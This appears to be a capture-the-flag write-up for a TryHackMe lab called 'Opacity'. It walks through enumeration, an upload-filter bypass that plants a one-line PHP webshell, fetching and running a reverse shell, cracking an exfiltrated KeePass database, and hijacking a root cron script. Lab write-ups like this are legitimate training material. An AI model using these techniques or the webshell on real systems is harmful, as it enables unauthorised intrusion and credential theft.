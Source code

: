 # Opacity

https://tryhackme.com/room/opacity

This is rated EASY at time of writing, but I expect it might get bumped. Not too tricky, some basic fundamentals.

1. Scanning reveals 22, 80, 139 and 445. The samba ports dont reveal much, but if run with `enum4linux` you will get a valid system username thats interesting but not useful.
2. On 80 you are redirected to a login form. This held me up for a while, because I was running my enumeration wrong; there is a subdirectory under /cloud that you can find with ffuf, however I was using `-ac` for automatic calibration that unfortunately calibrated the redirect from /cloud to /cloud/ as being a non-report, and so it took me much longer than it should have to find this directory.
3. /cloud hosts a image uploader: you give it a image url, and if its a valid image extension the image is downloaded from that url and hosted under /cloud/images/image_name for a short period of time (its deleted after possibly 5 seconds, along with everything else in that directory). To exploit this, I created `test.php` on the attack box containing a simple webshell (`<?php system($_GET[1]) ?>`), hosted a webserver, then gave a url like `10.10.63.79:1234/test.php#00.jpg` to bypass the check (using a null byte). This worked and I got a webshell under /cloud/images/test.php for short periods of time.
4. Using the temporary webshell I downloaded a revshell payload using wget to /tmp, made it executable and ran it (using several upload webshells as they were deleted). This got me a rev shell on the system as www-data.
5. The other user was the user that had been detected earlier, sysadmin. This user had a scripts folder under their home directory, and pspy64 revealed that root was running the script.php inside this folder every minute. Further enumeration found a keepass xc database under /opt, owned by sysadmin.
6. Exfiltrating this database and running keepass2john on it gave me a hash, which I cracked with john the ripper and rockyou - normally this would be avoided as keepass databases are designed to be very hard to crack, but a password was found quickly and I was able to open the database and retrieved sysadmin's user password.
7. As sysadmin I was able to get the local flag. The scripts folder was owned by root, and its contents could not be modified. However, as the folder was inside sysadmin's home dir, I could move it so I moved/renamed it to scripts2, then created my own scripts folder. In a new script.php file I added php to run my revshell payload.
8. This relatively quickly got called by root and I got a root revshell, retrieving the final flag.

Pretty simple, though the enum tripped me up. I wasn't particularly distracted by the SMB, which I assume was a red herring designed to distract.
